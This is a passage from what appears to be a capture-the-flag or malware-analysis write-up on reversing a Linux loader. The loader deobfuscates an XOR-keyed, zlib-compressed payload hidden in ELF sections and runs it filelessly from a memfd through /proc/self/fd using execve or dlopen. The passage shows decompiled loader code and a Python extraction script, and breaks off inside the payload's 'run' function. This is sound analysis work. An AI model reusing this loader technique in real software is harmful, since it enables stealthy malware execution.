Notice anything? They're essentially exactly the same. So this is why we couldn't find any references to the deobfuscation function we found. It's because the malware is initializing a function pointer that points to executable memory containing a copy of the `.init.checksum.validation` section's contents, which contains the actual deobfuscation function the malware uses

This also explains why the first obfuscated blob was deobfuscated in `main`, instead of using the deobfuscation function. It's because the pointer to the deobfuscation function hadn't been set up yet. After the function pointer is set up, the deobfuscation function is utilized for all subsequent use cases. 

Now another question that might arise is why have both. Why have a deobfuscation function for everyone to see, but is never invoked, and then have the exact same function hidden in `.init.checksum.validation`. Perhaps it was intentional by the devs to help static analyzers of this malware, or maybe it was a compiler artifact

Regardless of the reason, now we understand how exactly the malware is deobfuscating, and the purpose of the `.init.checksum.validation` section. Now, on to understanding the purpose of the next two sections. 

#### Rev harder

Firstly, we find a function that appears to extract section contents of a program based on the section name

```c
00005aa0  uint64_t extract_resource_from_file(char* arg1, char* arg2, int64_t* arg3, 
00005aa0      uint64_t* arg4)

00005ac5      void* fsbase
00005ac5      int64_t rax = *(fsbase + 0x28)
00005ada      FILE* s
00005ada      __builtin_memset(&s, c: 0, n: 0x20)
00005b08      int32_t rbx_1
00005b08      void* r13
00005b08      void* var_58
00005b08      
00005b08      if (open_wrapper(&s, "r", arg1) == 0)
00005b67          int64_t var_50
00005b67          int32_t rax_5 = sub_5720(s, &var_58, &var_50)
00005b6c          r13 = var_58
00005b6c          
00005b73          if (rax_5 != 0)
00005bd8              rbx_1 = 1
00005b73          else
00005b85              void* var_48
00005b85              int32_t rax_6 = locate_elf_section(arg2, r13, var_50.b, &var_48)
00005b8a              rbx_1 = rax_6
00005b8a              
00005b8e              if (rax_6 != 0)
00005bd8                  rbx_1 = 1
00005b8e              else
00005b90                  void* r15_1 = var_48
00005b90                  
00005b98                  if (r15_1 == 0)
00005bd8                      rbx_1 = 1
00005b98                  else
00005b9a                      uint64_t size = *(r15_1 + 0x20)
00005ba3                      *arg4 = size
00005baa                      int64_t rax_7 = calloc(nmemb: 1, size)
00005baf                      *arg3 = rax_7
00005baf                      
00005bb9                      if (rax_7 == 0)
00005bd8                          rbx_1 = 1
00005bb9                      else
00005bc8                          __memcpy_chk(rax_7, *(r15_1 + 0x18) + r13, size, size)
00005b08      else
00005b0a          r13 = var_58
00005b0f          rbx_1 = 1
00005b0f      
00005b17      if (r13 != 0)
00005b1c          free(ptr: r13)
00005b1c      
00005b21      FILE* fp = s
00005b21      
00005b29      if (fp != 0)
00005b2b          fclose(fp)
00005b2b      
00005b35      *(fsbase + 0x28)
00005b35      
00005b3e      if (rax == *(fsbase + 0x28))
00005b54          return zx.q(rbx_1)
00005b54      
00005be2      __stack_chk_fail()
00005be2      noreturn
```

So it appears that the malware has the section names obfuscated, it deobfuscates the name with the function we found, then extracts what's in that section. The question is what does it do with the data now that it's extracted

Eventually, we hit what appears to be the jackpot

```c
0000320c              if (lzss_like_compress(var_1a0, var_188, var_190, var_198) != -1)
00003234                  if (prob_zlib_decompress_caller(var_1a0, var_198, r12, &var_188) != 0)
00003234                      goto cooked
00003234                  
00003251                  if (memfd_dlopen_or_execve_malware(var_190, var_188) != 0)
00003251                      goto cooked
```

Of course, my function renaming spoils the surprise. 

First, we have a function that does some sort of LZSS like compression, which I name `lzss_like_compress`. That part isn't that important though. 

What's really important is the next 2 functions, specifically the 3rd one

We have a function that tries to perform a `zlib` decompression on the passed in data

```c
000037b0  int64_t prob_zlib_decompress_caller(int64_t arg1, int64_t arg2, int64_t* arg3, 
000037b0      size_t* arg4)

000037bd      int64_t* r13 = arg3
000037d0      void* fsbase
000037d0      int64_t rax = *(fsbase + 0x28)
000037e3      bool cond:0 = arg3 == 0
000037e9      int64_t s
000037e9      __builtin_memset(&s, c: 0, n: 0x68)
000037f2      arg3.b = arg4 == 0
00003800      int32_t result
00003800      
00003800      if ((cond:0 | arg3.b) == 0 && arg1 != 0)
00003806          size_t size = arg2 * 2
0000380a          int32_t var_a0_1 = arg2.d
00003816          s = arg1
0000381a          int64_t rax_2 = calloc(nmemb: 1, size)
0000381f          int64_t r15_1 = rax_2
0000381f          
00003825          if (rax_2 != 0)
0000382b              *arg4 = size
0000382b              
00003839              if (sub_aff0(&s) != 0)
00003910                  free(ptr: r15_1)
00003839              else
0000383f                  size_t n = *arg4
00003881                  int32_t i
00003881                  
00003881                  do
00003897                      size_t var_80
00003897                      int64_t var_90_1 = r15_1 + var_80
0000389c                      int32_t var_88_1 = n.d - var_80.d
000038a0                      i = prob_zlib_inflate(&s, 0)
000038a0                      
000038ab                      if (i == 1)
000039a3                          result = sub_d120(&s)
000039a3                          
000039aa                          if (result != 0)
000039aa                              goto label_3908
000039aa                          
000039b5                          *r13 = r15_1
000039b9                          *arg4 = var_80
000039bd                          goto label_391f
000039bd                      
000038b1                      n = *arg4
000038b8                      double zmm0_1
000038b8                      double zmm1_1
000038b8                      int64_t var_98
000038b8                      int64_t rax_5
000038b8                      
000038b8                      if (n s>= 0)
0000384f                          zmm0_1 = float.d(n)
00003854                          rax_5 = r15_1 - var_98
00003854                          
00003859                          if (r15_1 - var_98 s< 0)
000038f4                              zmm1_1 = float.d(rax_5 u>> 1 | zx.q(rax_5.d & 1))
000038f9                              zmm1_1 = zmm1_1 + zmm1_1
00003859                          else
00003863                              zmm1_1 = float.d(rax_5)
000038b8                      else
000038cd                          zmm0_1 = float.d(n u>> 1 | zx.q(n.d & 1))
000038d5                          zmm0_1 = zmm0_1 + zmm0_1
000038d9                          rax_5 = r15_1 - var_98
000038d9                          
000038de                          if (r15_1 - var_98 s>= 0)
00003863                              zmm1_1 = float.d(rax_5)
000038de                          else
000038f4                              zmm1_1 = float.d(rax_5 u>> 1 | zx.q(rax_5.d & 1))
000038f9                              zmm1_1 = zmm1_1 + zmm1_1
000038f9                      
00003878                      if (zmm1_1 > 0.75 * zmm0_1)
0000394c                          zmm0_1 = zmm0_1 + 0.25 * zmm0_1
0000394c                          
00003958                          if (zmm0_1 >= 9.2233720368547758e+18)
00003997                              n = int.q(zmm0_1 - 9.2233720368547758e+18) ^ 0x8000000000000000
00003958                          else
0000395a                              n = int.q(zmm0_1)
0000395a                          
00003965                          int64_t rax_12 = realloc(ptr: r15_1, n)
00003965                          
0000396d                          if (rax_12 == 0)
0000396d                              break
0000396d                          
0000396f                          *arg4 = n
00003973                          r15_1 = rax_12
00003881                  while (i == 0)
00003908                  label_3908:
00003908                  
0000390b                  if (r15_1 != 0)
00003910                      free(ptr: r15_1)
00003910      
00003915      result = 1
0000391f      label_391f:
0000391f      *(fsbase + 0x28)
0000391f      
00003928      if (rax == *(fsbase + 0x28))
0000393c          return result
0000393c      
000039c2      __stack_chk_fail()
000039c2      noreturn
```

Once the `zlib` decompression occurs, it takes the result (which I assumed to be some sort of malware) and tries to run it in two ways based on a certain condition

```c
if (memfd_dlopen_or_execve_malware(var_190, var_188) != 0)
    goto cooked
```

```c
00005da0  uint64_t memfd_dlopen_or_execve_malware(int64_t arg1, uint64_t arg2)

00005db6      void* fsbase
00005db6      int64_t rax = *(fsbase + 0x28)
00005dd5      int128_t brainrot4
00005dd5      __builtin_strncpy(dest: &brainrot4, src: "skibidi_toilet_ohio_rizz_gyatt_sigma_male_grindset_mewing_streak", n: 0x41)
00005e24      int32_t rbx_2
00005e24      
00005e24      if (arg1 == 0 || arg2 == 0)
00005f80          rbx_2 = 1
00005e24      else if (*(arg1 + 0x18) != 0)
00005f55          rbx_2 = execve_malware(arg1, arg2)
00005e32      else
00005e41          int32_t fd = memfd_create(&data_19061, 0)
00005e46          uint64_t fd_1 = zx.q(fd)
00005e46          
00005e4c          if (fd == 0xffffffff)
00005f80              rbx_2 = 1
00005e4c          else if (write(fd, buf: arg1, nbytes: arg2) == 0)
00005f80              rbx_2 = 1
00005e62          else
00005e72              int64_t* rax_2 = calloc(nmemb: 1, size: 0xf)
00005e72              
00005e7d              if (rax_2 == 0)
00005f80                  rbx_2 = 1
00005e7d              else
00005e9a                  *rax_2 = 0x3a1a4b0a0d1b1b5c
00005ea3                  *(rax_2 + 7) = 0x5b010a4609183a
00005ea7                  int32_t rax_3 = (*"to griddy dance because this man…")[0].q(&brainrot4, 0x41, rax_2, 0xf)
00005ead                  rbx_2 = rax_3
00005eb1                  char* s
00005eb1                  
00005eb1                  if (rax_3 == 0)
00005ec1                      s = calloc(nmemb: 1, size: 0x19)
00005ec1                  
00005ecc                  if (rax_3 != 0 || s == 0)
00005f7b                      free(ptr: rax_2)
00005f80                      rbx_2 = 1
00005ecc                  else
00005ef6                      int32_t rax_5 = __snprintf_chk(s, maxlen: 0x19, flag: 2, slen: 0x19, format: "%s%d", rax_2, fd_1)
00005eff                      int64_t rax_6
00005eff                      int64_t var_90
00005eff                      
00005eff                      if (rax_5 s>= 0)
00005f0d                          rax_6 = dlopen(s, 1, fd_1, var_90)
00005f0d                      
00005f18                      if (rax_5 s< 0 || rax_6 == 0)
00005f93                          free(ptr: rax_2)
00005f9b                          free(ptr: s)
00005f80                          rbx_2 = 1
00005f18                      else
00005f24                          int64_t rax_7 = dlsym(rax_6, &data_19076)
00005f24                          
00005f2f                          if (rax_7 == 0)
00005fa5                              rbx_2 = 1
00005faa                              free(ptr: rax_2)
00005f2f                          else
00005f33                              rax_7()
00005f38                              free(ptr: rax_2)
00005f38                          
00005f40                          free(ptr: s)
00005f48                          dlclose(rax_6)
00005f48      
00005f5c      *(fsbase + 0x28)
00005f5c      
00005f65      if (rax == *(fsbase + 0x28))
00005f73          return zx.q(rbx_2)
00005f73      
00005fb1      __stack_chk_fail()
00005fb1      noreturn
```

Basically, what this is doing is that it checks if the malware it wants to execute is a shared library or a standalone executable. This is seen in this check

```c
else if (*(arg1 + 0x18) != 0)
    rbx_2 = execve_malware(arg1, arg2)
```

The offset `0x18` in an ELF is used to store the entry point. Standalone executables have an entry point, and this offset will be non zero. However, for a shared library, it doesn't have an entry point, and therefore would be 0. 

This check essentially performs an `execve` on the malware contents to run it as a standalone executable if it detects that it is one using the below function. It does this by writing the malware contents to a memfd, constructing the path to that fd using some obfuscated values, and then running `execve`

I would go over this in detail, but this is very similar to how the binary dynamically loads a shared library, which we're going over next. Since it'd be redundant to do it now, I'll go over the specifics then

```c
00005bf0  uint64_t execve_malware(int64_t arg1, uint64_t arg2)

00005c04      void* fsbase
00005c04      int64_t rax = *(fsbase + 0x28)
00005c21      int128_t var_58 = zx.o(0)
00005c25      int64_t brainrot3
00005c25      __builtin_strncpy(dest: &brainrot3, src: "skibbity", n: 9)
00005c34      int64_t var_3f = 0x1c0746010d1b1b5c
00005c43      var_3f = 0x460604460d1f1c
00005c4b      int64_t* rax_1
00005c4b      
00005c4b      if (arg1 != 0)
00005c61          rax_1 = calloc(nmemb: 1, size: 0xf)
00005c61      
00005c6c      int32_t r12
00005c6c      
00005c6c      if (arg1 == 0 || rax_1 == 0)
00005d50          r12 = 1
00005c6c      else
00005c89          *rax_1 = var_3f
00005c91          *(rax_1 + 7) = var_3f
00005c95          int32_t rax_4 = (*"to griddy dance because this man…")[0].q(&brainrot3, 9, rax_1, 0xf)
00005c9b          r12 = rax_4
00005c9b          
00005ca0          if (rax_4 != 0)
00005d90              r12 = 1
00005ca0          else
00005caf              int32_t fd = memfd_create(&data_19061, 0)
00005caf              
00005cba              if (fd == 0xffffffff)
00005d90                  r12 = 1
00005cba              else if (write(fd, buf: arg1, nbytes: arg2) == 0)
00005d90                  r12 = 1
00005cd0              else
00005ce0                  char* s = calloc(nmemb: 1, size: 0x19)
00005ce0                  
00005ceb                  if (s == 0)
00005d90                      r12 = 1
00005ceb                  else if (__snprintf_chk(s, maxlen: 0x19, flag: 2, slen: 0x19, format: "%s%d", rax_1, zx.q(fd)) s< 0)
00005d83                      free(ptr: s)
00005d90                      r12 = 1
00005d1e                  else
00005d2d                      var_58.q = s
00005d3c                      int64_t var_60
00005d3c                      
00005d3c                      if (execve(s, &var_58, __bss_start, var_60) == 0xffffffff)
00005d83                          free(ptr: s)
00005d90                          r12 = 1
00005d3c                      else
00005d3e                          free(ptr: s)
00005d3e          
00005d46          free(ptr: rax_1)
00005d46      
00005d5b      *(fsbase + 0x28)
00005d5b      
00005d64      if (rax == *(fsbase + 0x28))
00005d75          return zx.q(r12)
00005d75      
00005d98      __stack_chk_fail()
00005d98      noreturn
```

Otherwise, if not a standalone executable and is instead a shared library, the binary dynamically will load the shared library from a memfd

Now, the specifics...

First it creates a memfd

```c
00005e41          int32_t fd = memfd_create(&data_19061, 0)
00005e46          uint64_t fd_1 = zx.q(fd)
```

It also saves the file descriptor that was created

It then writes the malware payload into the memfd

```c
00005e4c          else if (write(fd, buf: arg1, nbytes: arg2) == 0)
00005f80              rbx_2 = 1
```

It then wants to call `dlopen` on what is in that memfd, but `dlopen` takes a path, not a fd as input. 

To resolve this, it performs this `snprintf` call with obfuscated values to build a filepath to the memfd

```c
00005e9a                  *rax_2 = 0x3a1a4b0a0d1b1b5c
00005ea3                  *(rax_2 + 7) = 0x5b010a4609183a
00005ea7                  int32_t rax_3 = (*"to griddy dance because this man…")[0].q(&brainrot4, 0x41, rax_2, 0xf)
00005ead                  rbx_2 = rax_3
00005eb1                  char* s
00005eb1                  
00005eb1                  if (rax_3 == 0)
00005ec1                      s = calloc(nmemb: 1, size: 0x19)
00005ec1                  
00005ecc                  if (rax_3 != 0 || s == 0)
00005f7b                      free(ptr: rax_2)
00005f80                      rbx_2 = 1
00005ecc                  else
00005ef6                      int32_t rax_5 = __snprintf_chk(s, maxlen: 0x19, flag: 2, slen: 0x19, format: "%s%d", rax_2, fd_1)
```

This is using that same deobfuscation function from earlier. If we use that same logic to deobfuscate this new blob, it results in `/proc/self/fd/`

So this `snprintf` call is building the filepath `/proc/self/fd/<whatever fd was returned by memfd_create>`

It's essentially just trying to hide the path that it is calling

It then calls `dlopen` on the memfd to dynamically load the shared library

```c
00005f0d                          rax_6 = dlopen(s, 1, fd_1, var_90)
```

It then dynamically loads a symbol (a function) and executes it


```c
00005f24                          int64_t rax_7 = dlsym(rax_6, &data_19076)
00005f24                          
00005f2f                          if (rax_7 == 0)
00005fa5                              rbx_2 = 1
00005faa                              free(ptr: rax_2)
00005f2f                          else
00005f33                              rax_7()
```

That function it tries to execute is named `run`



Ok, that was a lot of information. What is the conclusion? 

This binary we are analyzing is some sort of malware loader. 

It takes some kind of malware payload, which it assumes to be `zlib` compressed, decompresses it, then executes it if it is a standalone executable or dynamically loads and executes the function `run` if it is a shared library. 

Now the next question is, what exactly is the malware payload it is loading?

This is where those sections from earlier come into play

#### Rev-ception

`main` extracts the contents of what was in the second obfuscated blob

```c
00003100          if (extract_resource_from_file(*argv, r15_3, &var_1a0, &var_198) != 0)
```

Which we now know to be `.init.constructors.global`

It also extracts the contents of what was in the third obfuscated blob

```c
000031a2              if (extract_resource_from_file(*argv, r15_3, &var_180, &var_178) != 0)
```

Which we now know to be `.bss_secure_buffer`

It performs the deobfuscation logic that we found earlier with the content in these 2 sections as input

```c
000031dd              if ((*"to griddy dance because this man…")[0].q(var_180, var_178, var_1a0, var_198) != 0)
```

It then performs the zlib decompression and malware execution on the contents of said deobfuscation

```c
0000320c              if (lzss_like_compress(var_1a0, var_188, var_190, var_198) != -1)
00003234                  if (prob_zlib_decompress_caller(var_1a0, var_198, r12, &var_188) != 0)
00003234                      goto cooked
00003234                  
00003251                  if (memfd_dlopen_or_execve_malware(var_190, var_188) != 0)
00003251                      goto cooked
```

So what is located in `.init.constructors.global` and `.bss_secure_buffer`?

We can use `readelf` for this

`.bss_secure_buffer` appears to be the entire brainrot string we've been seeing bits and pieces of throughout our analysis

```
readelf -x .bss_secure_buffer ./suspicious
```

returns

```
Hex dump of section '.bss_secure_buffer':
  0x00023098 596f2079 6f20796f 2c206e6f 20636170 Yo yo yo, no cap
  0x000230a8 20667220 66722c20 77616c6b 696e6720  fr fr, walking 
  0x000230b8 696e746f 20746861 74204d6f 6e646179 into that Monday
  0x000230c8 206d6f72 6e696e67 20737461 6e647570  morning standup
  0x000230d8 20686164 206d6520 6665656c 696e6720  had me feeling 
  0x000230e8 6c696b65 20746865 204f6869 6f206669 like the Ohio fi
  0x000230f8 6e616c20 626f7373 20696e20 736f6d65 nal boss in some
  0x00023108 20736b69 62696469 20746f69 6c657420  skibidi toilet 
  0x00023118 636f6465 20726576 69657720 676f6e65 code review gone
  0x00023128 2077726f 6e672e20 54686520 74656368  wrong. The tech
  0x00023138 206c6561 64207265 616c6c79 2070756c  lead really pul
  0x00023148 6c656420 75702061 6e642073 61696420 led up and said 
  0x00023158 22776520 6e656564 20746f20 72656661 "we need to refa
  0x00023168 63746f72 20746869 73206c65 67616379 ctor this legacy
  0x00023178 20636f64 65626173 65222077 68696c65  codebase" while
  0x00023188 2049276d 20736974 74696e67 20746865  I'm sitting the
  0x00023198 7265206d 6577696e 67207769 7468206d re mewing with m
  0x000231a8 6178696d 756d2067 79617474 20656e65 aximum gyatt ene
  0x000231b8 7267792c 20747279 696e6720 6e6f7420 rgy, trying not 
  0x000231c8 746f2067 72696464 79206461 6e636520 to griddy dance 
  0x000231d8 62656361 75736520 74686973 206d616e because this man
  0x000231e8 20746869 6e6b7320 68652773 20676f74  thinks he's got
  0x000231f8 20746861 74203130 7820656e 67696e65  that 10x engine
  0x00023208 65722073 69676d61 20677269 6e647365 er sigma grindse
  0x00023218 74206275 74206865 27732073 65727669 t but he's servi
  0x00023228 6e67206d 616a6f72 206a756e 696f7220 ng major junior 
  0x00023238 64657620 62657461 20766962 65732c20 dev beta vibes, 
  0x00023248 6f6e6c79 20696e20 4f68696f 20776f75 only in Ohio wou
  0x00023258 6c642073 6f6d656f 6e652070 75736820 ld someone push 
  0x00023268 64697265 63746c79 20746f20 6d61696e directly to main
  0x00023278 20627275 682e204d 65616e77 68696c65  bruh. Meanwhile
  0x00023288 2c205361 72616820 66726f6d 20446576 , Sarah from Dev
  0x00023298 4f707320 69732073 74726169 67687420 Ops is straight 
  0x000232a8 75702072 697a7a69 6e672074 6865206c up rizzing the l
  0x000232b8 69666520 6f757420 6f662074 68657365 ife out of these
  0x000232c8 2043492f 43442070 6970656c 696e6573  CI/CD pipelines
  0x000232d8 20776974 68206865 7220446f 636b6572  with her Docker
  0x000232e8 20636f6e 66696775 72617469 6f6e7320  configurations 
  0x000232f8 74686174 20686974 20646966 66657265 that hit differe
  0x00023308 6e74202d 20686f6d 65676972 6c20676f nt - homegirl go
  0x00023318 74207468 61742073 6b696269 64692062 t that skibidi b
  0x00023328 6f702062 6f702064 65706c6f 796d656e op bop deploymen
  0x00023338 74206761 6d652c20 77652061 62736f6c t game, we absol
  0x00023348 7574656c 79207374 616e2061 2070726f utely stan a pro
  0x00023358 64756374 69766520 71756565 6e207768 ductive queen wh
  0x00023368 6f277320 6d657769 6e672068 65722077 o's mewing her w
  0x00023378 61792074 68726f75 6768204b 75626572 ay through Kuber
  0x00023388 6e657465 73206d61 6e696665 73747320 netes manifests 
  0x00023398 6c696b65 20736865 27732044 756b6520 like she's Duke 
  0x000233a8 44656e6e 69732074 65616368 696e6720 Dennis teaching 
  0x000233b8 636f6e74 61696e65 72206f72 63686573 container orches
  0x000233c8 74726174 696f6e2e 20546865 2077686f tration. The who
  0x000233d8 6c652074 65616d20 77617320 6c6f776b le team was lowk
  0x000233e8 65792066 616e756d 20746178 696e6720 ey fanum taxing 
  0x000233f8 65616368 206f7468 65722773 20476974 each other's Git
  0x00023408 48756220 636f6d6d 69747320 7768696c Hub commits whil
  0x00023418 65206772 69646479 2064616e 63696e67 e griddy dancing
  0x00023428 2061726f 756e6420 74686573 65207370  around these sp
  0x00023438 72696e74 20646561 646c696e 65732c20 rint deadlines, 
  0x00023448 62757420 686f6e65 73746c79 3f205468 but honestly? Th
  0x00023458 69732074 65636820 73746163 6b206973 is tech stack is
  0x00023468 20616273 6f6c7574 656c7920 62757373  absolutely buss
  0x00023478 696e2062 75737369 6e206e6f 20636170 in bussin no cap
  0x00023488 2c207765 27726520 616c6c20 6665656c , we're all feel
  0x00023498 696e6720 6d6f7265 20626c65 73736564 ing more blessed
  0x000234a8 20746861 6e204261 62792047 726f6e6b  than Baby Gronk
  0x000234b8 20676574 74696e67 20686973 20666972  getting his fir
  0x000234c8 73742070 756c6c20 72657175 65737420 st pull request 
  0x000234d8 6d657267 65642062 79204c69 76767920 merged by Livvy 
  0x000234e8 44756e6e 652e2057 68656e20 74686520 Dunne. When the 
  0x000234f8 70726f64 75637420 6d616e61 67657220 product manager 
  0x00023508 616e6e6f 756e6365 64207765 27726520 announced we're 
  0x00023518 73776974 6368696e 6720746f 20547970 switching to Typ
  0x00023528 65536372 6970742c 20746865 20636f6c eScript, the col
  0x00023538 6c656374 69766520 67796174 7420656e lective gyatt en
  0x00023548 65726779 20696e20 74686174 20776172 ergy in that war
  0x00023558 20726f6f 6d207761 73206769 76696e67  room was giving
  0x00023568 20756e6d 61746368 6564204f 68696f20  unmatched Ohio 
  0x00023578 76696265 732c206c 696b6520 7765206a vibes, like we j
  0x00023588 75737420 7769746e 65737365 64207468 ust witnessed th
  0x00023598 6520736b 69626964 6920746f 696c6574 e skibidi toilet
  0x000235a8 206f6620 70726f67 72616d6d 696e6720  of programming 
  0x000235b8 6c616e67 75616765 7320636f 6d70696c languages compil
  0x000235c8 6520696e 20726561 6c207469 6d652e20 e in real time. 
  0x000235d8 546f7563 68206772 6173733f 204e6168 Touch grass? Nah
  0x000235e8 20626573 7469652c 20776527 72652074  bestie, we're t
  0x000235f8 6f756368 696e6720 6b657962 6f617264 ouching keyboard
  0x00023608 7320616e 64206c69 76696e67 206f7572 s and living our
  0x00023618 206d6f73 74207369 676d6120 64657665  most sigma deve
  0x00023628 6c6f7065 72206c69 66652077 68696c65 loper life while
  0x00023638 20746865 20696d70 6f73746f 7220616d  the impostor am
  0x00023648 6f6e6720 75732070 72657465 6e647320 ong us pretends 
  0x00023658 746f2075 6e646572 7374616e 64204269 to understand Bi
  0x00023668 67204f20 6e6f7461 74696f6e 2e205468 g O notation. Th
  0x00023678 69732073 7072696e 7420706c 616e6e69 is sprint planni
  0x00023688 6e672077 61732073 74726169 67687420 ng was straight 
  0x00023698 75702067 6976696e 67206d61 696e2063 up giving main c
  0x000236a8 68617261 63746572 20656e65 72677920 haracter energy 
  0x000236b8 62757420 6d616b65 20697420 66756c6c but make it full
  0x000236c8 2d737461 636b2c20 70657269 6f647420 -stack, periodt 
  0x000236d8 6e6f2070 72696e74 65722064 65746563 no printer detec
  0x000236e8 7465642c 20736b69 62696469 20626f70 ted, skibidi bop
  0x000236f8 20626f70 206e706d 20696e73 74616c6c  bop npm install
  0x00023708 20796573 20796573 2e0a               yes yes..
```

`.init.constructors.global` appears to be some sort of obfuscated content

```
readelf -x .init.constructors.global ./suspicious
```

It is very long so the below is just a short snippet

```
Hex dump of section '.init.constructors.global':
  0x000230a0 21b5cd04 665c2aaa dadf23f5 b6d15421 !...f\*...#...T!
  0x000230b0 2b8474f1 31e396f4 f17c7b07 003d7568 +.t.1....|{..=uh
  0x000230c0 c82cff67 622eb2f5 82f16859 074d4f21 .,.gb.....hY.MO!
  0x000230d0 0ca8a960 c2724c4d c28108dd 496bde3f ...`.rLM....Ik.?
  0x000230e0 3139d048 723df3aa d4dd59c4 57ea3cf9 19.Hr=....Y.W.<.
  0x000230f0 464bbfe0 c60ba6a9 fc93d12a edea1dd6 FK.........*....
  0x00023100 918e93d9 9e66ec03 ce9ea256 bda3f456 .....f.....V...V
  0x00023110 4795b59d 5c0911cd c9015520 95213ce3 G...\.....U .!<.
  0x00023120 467a2d37 32d1aeec 11bb2789 4c9311e0 Fz-72.....'.L...
  0x00023130 544ebb04 fea5516c bd324fb9 5ca411f9 TN....Ql.2O.\...
  0x00023140 58fda499 66dde528 2a951edd 9dd5f943 X...f..(*......C
  0x00023150 bc5c734a 5c2f0e6b d069cf20 bdd9316b .\sJ\/.k.i. ..1k
  0x00023160 f53336fa 76c848c3 47917579 cba3cb3b .36.v.H.G.uy...;
  0x00023170 b9d2bc20 85cce914 e4c9359a 6eb54f10 ... ......5.n.O.
  0x00023180 893b0177 ae45b34b 2c69b5c9 7796c152 .;.w.E.K,i..w..R
  0x00023190 cf15fda6 40968fcb 34d82680 cac13c0c ....@...4.&...<.
  0x000231a0 9d13087a 408a9761 8c6e1e75 1f47fc55 ...z@..a.n.u.G.U
...
...
...
A lot more stuff after
...
...
...
```

It appears the actual malware payload is obfuscated and hidden within this binary in its program sections! A binary hidden in a binary. 

This looks very similar to the obfuscated blobs we have already deobfuscated thus far. We need to use the brainrot string as a key to deobfuscate the obfuscated data. 

Said obfuscated data in this case will be zlib compressed, so we have to decompress it. 

Then, if everything worked as intended, we should end up with some sort of executable, or a shared library. 

We can write a Python script to attempt to do exactly this

To preface, I had dumped the output of the brainrot string into a file called `out.bin` and the content of the obfuscated data into a file called `"init_constructors_global.bin"`. I am also using "mimic" as my prefix since we are attempting to mimic the malware

```python
#!/usr/bin/env python3
import zlib
from pathlib import Path

KEYPATH = "out.bin"
BUFPATH = "init_constructors_global.bin"
OUT_PREFIX = "mimic"

def load():
    key = Path(KEYPATH).read_bytes()
    buf = bytearray(Path(BUFPATH).read_bytes())
    return key, buf

def malware_deobf_like(buf, key, param2, param4, start_key_offset=0):
    """
    Implements the Ghidra pseudocode:
      for uVar1 from 0; if param4 != 1 then
        buf[uVar1] ^= *(param1 + (uVar1 % (param2 - 1)))
        uVar1++
      while (param4 - 1 != uVar1)
    Number of XOR ops = param4 - 1 (unless param4 == 1 -> none)
    param2 is the value passed as second arg (used as param2 - 1 in modulus).
    """
    out = bytearray(buf)  # copy
    if param4 == 1:
        return out
    keylen = len(key)
    mod = param2 - 1
    # protect against mod == 0; Ghidra code would use modulo with (param_2 -1U) which would be UB if zero,
    # but we'll treat mod==0 as index 0 (safe fallback)
    i = 0
    while True:
        if i >= len(out):
            break
        idx = (i % mod) if mod != 0 else 0
        key_idx = (start_key_offset + idx) % keylen
        out[i] ^= key[key_idx]
        i += 1
        if i == (param4 - 1):
            break
    return out

def try_decompress_all(blob, label):
    # try several wbits
    for wbits, name in ((15, "zlib"), (-15, "raw"), (31, "gzip")):
        try:
            dec = zlib.decompress(blob, wbits)
            Path(f"{OUT_PREFIX}_{label}_{name}.bin").write_bytes(dec)
            print("SUCCESS:", label, name, "-> wrote", f"{OUT_PREFIX}_{label}_{name}.bin", "size", len(dec))
            return True
        except Exception as e:
            pass
    # try streaming to collect partial output/error
    try:
        d = zlib.decompressobj()
        out = d.decompress(blob)
        out += d.flush()
        Path(f"{OUT_PREFIX}_{label}_stream.bin").write_bytes(out)
        print("STREAM success (no exception), wrote", f"{OUT_PREFIX}_{label}_stream.bin", "size", len(out))
        return True
    except zlib.error as e:
        # write partial output for inspection
        try:
            d = zlib.decompressobj()
            _ = d.decompress(blob)
            partial = d.flush()
        except Exception:
            partial = b""
        Path(f"{OUT_PREFIX}_{label}_partial.bin").write_bytes(partial)
        print("Decompress failed for", label, "error:", e, "wrote partial of", len(partial))
    return False

def main():
    key, buf = load()
    print("key len", len(key), "buf len", len(buf))

    # Reasonable param2/param4 candidates to try
    # param2 might be len(key), len(key)+1, or len(key)-1 (if stored length includes terminator)
    # param4 might be len(buf), len(buf)+1, len(buf)-1
    param2_candidates = [len(key), len(key)-1 if len(key)>1 else 1, len(key)+1]
    param4_candidates = [len(buf), max(1, len(buf)-1), len(buf)+1]

    tried = 0
    for p2 in param2_candidates:
        for p4 in param4_candidates:
            tried += 1
            label = f"p2{p2}_p4{p4}"
            print("Trying", label)
            cand = malware_deobf_like(buf, key, param2=p2, param4=p4, start_key_offset=0)
            # quick ELF check
            if cand.startswith(b"\x7fELF"):
                print("  -> ELF magic at start for", label)
                Path(f"{OUT_PREFIX}_{label}_elf.bin").write_bytes(cand)
            # try decompress
            try_decompress_all(bytes(cand), label)
    print("Tried", tried, "variants. Check output files.")

if __name__ == "__main__":
    main()
```

Additionally, from my comments, you can see that I tried to copy the Ghidra disassembly version of the same deobfuscation function that we already made. I was having issues when emulating Binja's version. 

The above script also attempts to decompress multiple times / ways just to make sure we're not off offset wise or whatnot. 

Running this successfully gets us something

```
key len 1658 buf len 16785
Trying p21658_p416785
SUCCESS: p21658_p416785 zlib -> wrote mimic_p21658_p416785_zlib.bin size 52968
```

We can run `file` on this output 

```
file mimic_p21658_p416785_zlib.bin
```

We do successfully get what appears to be a shared library!

```
mimic_p21658_p416785_zlib.bin: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=20d296cb481406379a05edef27676cd611430bf1, stripped
```

Onward to more analysis!

#### Rev Part 2. Electric Boogaloo

On this new binary, I use Ghidra for my analysis

Remember, from the loading logic we saw earlier, if the malware payload was a shared library, it would try to execute a function named `run`

Well, we found `run`

```c
void run(void)

{
  bool bVar1;
  char cVar2;
  long in_FS_OFFSET;
  undefined rc4_decrypt [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  rc4_ksa(rc4_decrypt,"skibidi",7);
  cVar2 = check_path_exists(rc4_decrypt);
  if (cVar2 == '\x01') {
    cVar2 = check_env_var_exists(rc4_decrypt);
    if (cVar2 == '\x01') {
      cVar2 = is_year_2024();
      if (cVar2 == '\x01') {
        cVar2 = is_root();
        if (cVar2 == '\x01') {
          cVar2 = file_contains_required_strings(rc4_decrypt);
          if (cVar2 == '\x01') {
            cVar2 = run_command_and_check_output(rc4_decrypt);
            if (cVar2 == '\x01') {
              bVar1 = false;
              goto LAB_00108e1d;
            }
          }
        }
      }
    }
  }
  bVar1 = true;
LAB_00108e1d:
